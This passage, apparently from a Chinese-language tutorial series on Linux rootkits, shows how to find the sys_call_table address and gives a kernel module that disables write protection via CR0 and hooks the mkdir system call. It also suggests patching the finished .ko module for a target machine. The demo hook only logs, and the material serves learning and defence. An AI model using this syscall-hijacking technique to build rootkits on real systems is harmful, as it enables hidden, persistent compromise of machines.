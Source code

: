 通过查询`System.map`获取`sys_call_table`地址：

![]({{ site.url }}/resources/pictures/linux-rkt-37.png)

可以看到这里用`sys_call_table`和`ia32_sys_call_table`两个表。第一个是 64 位系统本身的系统调用表，第二个表是为了兼容 32 位程序通过`int 0x80`方式做系统调用而存在的。为避免一下子讲解过多背景知识，我将采取“知识屏蔽”方法，这里先关注`sys_call_table`，即 64 位系统调用表。

找到了地址，下面就是编码了：

{% highlight c %}
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/types.h>
#include <linux/sched.h>
#include <linux/kallsyms.h>
#include <asm/cacheflush.h>
#include <asm/page.h>
#include <asm/current.h>

#define SYS_CALL_TABLE  0xffffffff816001a0

unsigned long *real_sys_call_table = (unsigned long *)SYS_CALL_TABLE;

asmlinkage long (*real_mkdir)(const char __user *pathname, umode_t mode);

asmlinkage long fake_mkdir(const char __user *pathname, umode_t mode)
{
    printk("br: mkdir-%s\n", pathname);

    return (*real_mkdir)(pathname, mode);
}

static int lkm_init(void)
{
    write_cr0(read_cr0() & (~0x10000));
    real_mkdir = (void *)real_sys_call_table[__NR_mkdir];
    real_sys_call_table[__NR_mkdir] = (unsigned long)fake_mkdir;
    write_cr0(read_cr0() | 0x10000);

    printk("bt: module loaded\n");

    return 0;
}

static void lkm_exit(void)
{
    write_cr0(read_cr0() & (~0x10000));
    real_sys_call_table[__NR_mkdir] = (unsigned long)real_mkdir;
    write_cr0(read_cr0() | 0x10000);

    printk("bt: module removed\n");
}
{% endhighlight %}

针对代码有几点说明：

- 本代码中采用了硬编码方式，把地址写在了宏定义中。一种更好的想法是在运行时通过这种途径获取到地址，这需要了解 /boot/System.map 的形成机制；或者在目标机器上获取到地址后，给已经做好的`.ko`文件进行二进制补丁
- 上面 arciryas 师傅的写保护开关比 novice 师傅的简洁一些，可以参考一下
